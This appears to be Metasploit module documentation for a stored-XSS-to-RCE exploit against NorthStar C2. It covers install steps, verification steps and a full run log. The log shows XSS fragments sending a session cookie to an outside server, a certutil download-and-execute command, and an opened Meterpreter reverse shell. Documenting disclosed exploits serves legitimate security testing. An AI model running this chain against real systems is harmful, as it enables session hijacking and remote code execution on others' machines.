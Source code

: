 ## Vulnerable Application

NorthStar C2, prior to commit `7674a44` on March 11 2024, contains a vulnerability where the logs page is
vulnerable to a stored XSS.
An unauthenticated user can simulate an agent registration to cause the XSS and take over a user's session.
With this access, it is then possible to run a new payload on all of the NorthStar C2 compromised hosts
(agents), and kill the original agent.

Successfully tested against NorthStar C2 commit `e7fdce148b6a81516e8aa5e5e037acd082611f73` running on
Ubuntu 22.04. The agent was running on Windows 10 19045.

```mermaid
flowchart TD
    A(fa:fa-computer Metasploit)
    B(fa:fa-server NorthStar C2)
    C(fa:fa-person Northstar C2 User)
    D(fa:fa-bug Agent)
    A -->|1. Upload XSS| B
    B -...-> C
    C -->|2. Visit XSS Page| B
    C -->|3. Send cookie| A
    A -->|4. Using Cookie, takeover agents| B
    D -->|5. Fetch and run payload, kill agent| A
    D -...-> B
    B -...-> D
```

### Install NorthStar C2

Instructions for Ubuntu 22.04. Official documentation and manual installation steps can be found [here](https://github.com/EnginDemirbilek/NorthStarC2/wiki/Installation).

```
sudo apt-get update
sudo apt-get install -y software-properties-common git wget mysql-server
sudo add-apt-repository ppa:ondrej/php
sudo apt-get update
sudo service mysql start
git clone https://github.com/EnginDemirbilek/NorthStarC2.git
cd NorthStarC2
git checkout e7fdce148b6a81516e8aa5e5e037acd082611f73
chmod +x install.sh
sudo ./install.sh # mysql answers: root:<empty>, make sure to give a website username/password
sudo apt-get purge -y php
sudo apt autoremove -y
sudo apt-get install -y php7.2 libapache2-mod-php7.2 php7.2-mysql
sudo a2dismod php*
sudo a2enmod php7.2
sudo service apache2 restart
```

### Agent Install

This should be done on a Windows computer:

On the c2 payload, you'll want to edit `Program.cs` on line 13 and edit `mainUri` to your northstar IP.
Now run the program, or compile and run it, and ensure the agent is active on the NorthStar C2 website.

## Verification Steps

1. Install the application, and connect an agent
1. Start msfconsole
1. Do: `use exploit/windows/http/northstar_c2_xss_to_agent_rce`
1. Do: `set rhosts [ip]`
1. Do: `set srvhost [srvhost]`
1. Do: `set fetch_srvport [fetch_srvport]`
1. Do: `set fetch_srvhost [fetch_srvhost]`
1. Do: `run`
1. Do: visit the NorthStarC2 site with a logged in user, and browse to the Server Logs page.
1. You should get a shell on each agent.

## Options

### KILL

If the NorthStarC2 agent should be explicitly killed on each compromised host. Defaults to `false`

## Scenarios

### NorthStar C2 commit e7fdce148b6a81516e8aa5e5e037acd082611f73 on Ubuntu 22.04 with an agent on Windows 10

```
resource (northstar.rq)> use exploit/windows/http/northstar_c2_xss_to_agent_rce
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
resource (northstar.rq)> set rhosts 4.4.4.4
rhosts => 4.4.4.4
resource (northstar.rq)> set srvhost 3.3.3.3
srvhost => 3.3.3.3
resource (northstar.rq)> set verbose true
verbose => true
resource (northstar.rq)> set FETCH_SRVPORT 9090
FETCH_SRVPORT => 9090
resource (northstar.rq)> set FETCH_srvhost 3.3.3.3
FETCH_srvhost => 3.3.3.3
msf6 exploit(windows/http/northstar_c2_xss_to_agent_rce) > exploit
[*] Command to run on remote host: certutil -urlcache -f http://3.3.3.3:9090/p3icRkNmQwbsIs7RYzV5sA %TEMP%\tKvCAnUBZgfn.exe & start /B %TEMP%\tKvCAnUBZgfn.exe
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/http/northstar_c2_xss_to_agent_rce) >
[*] Fetch handler listening on 3.3.3.3:9090
[*] HTTP server started
[*] Adding resource /p3icRkNmQwbsIs7RYzV5sA
[*] Started reverse TCP handler on 3.3.3.3:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. NorthStar Login page detected
[*] Sending XSS
[*] Sending: N*/</script><q
[*] Sending: N*/i.src=u/*q
[*] Sending: N*/new Image;/*q
[*] Sending: N*/var i=/*q
[*] Sending: N*/s+h+p+'/'+c;/*q
[*] Sending: N*/var u=/*q
[*] Sending: N*/'http://';/*q
[*] Sending: N*/var s=/*q
[*] Sending: N*/':8080';/*q
[*] Sending: N*/var p=/*q
[*] Sending: N*/a+b;/*q
[*] Sending: N*/var h=/*q
[*] Sending: N*/'.10.147';/*q
[*] Sending: N*/var b=/*q
[*] Sending: N*/'192.168';/*q
[*] Sending: N*/var a=/*q
[*] Sending: N*/d.cookie;/*q
[*] Sending: N*/var c=/*q
[*] Sending: N*/document;/*q
[*] Sending: N*/var d=/*q
[*] Sending: N</td><script>/*q
[*] Waiting on XSS execution
[*] Using URL: http://3.3.3.3:8080/
[*] Server started.
```

Now visit the site with a logged in user, and browse to the Server Logs page.

```
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce - Received GET request.
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce - Received cookie: st0sfhqto9mqtpd81rlg6hq5g5
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce - Live Agents
===========
 ID                   IP              OS                      Username                Hostname         Status
 --                   --              --                      --------                --------         ------
 NC1S7X834eJVcJtynrq  222.222.22.222  Windows 10 Enterprise   DESKTOP-Q0HUOEI\h00die  DESKTOP-Q0HUOEI  Online
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce - CSRF Token: 38b4d324e8cd233b7a94c62e7b3c5556
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce - (NC1S7X834eJVcJtynrq) Stealing DESKTOP-Q0HUOEI
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce -   (NC1S7X834eJVcJtynrq) Enabling shell mode
[+] 1.1.1.1    northstar_c2_xss_to_agent_rce -     Command sent successfully to agent NC1S7X834eJVcJtynrq, response: Cmd mode enabled, all commands will be redirect to CMD. Response delay is : 2000 miliseconds
[*] 1.1.1.1    northstar_c2_xss_to_agent_rce -   (NC1S7X834eJVcJtynrq) Running payload
[*] Client 222.222.22.222 requested /p3icRkNmQwbsIs7RYzV5sA
[*] Sending payload to 222.222.22.222 (Microsoft-CryptoAPI/10.0)
[*] Client 222.222.22.222 requested /p3icRkNmQwbsIs7RYzV5sA
[*] Sending payload to 222.222.22.222 (CertUtil URL Agent)
[*] Sending stage (201798 bytes) to 222.222.22.222
[*] Meterpreter session 1 opened (3.3.3.3:4444 -> 222.222.22.222:50116) at 2024-04-10 14:40:31 +0000
msf6 exploit(windows/http/northstar_c2_xss_to_agent_rce) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > sysinfo
Computer        : DESKTOP-Q0HUOEI
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/window
```
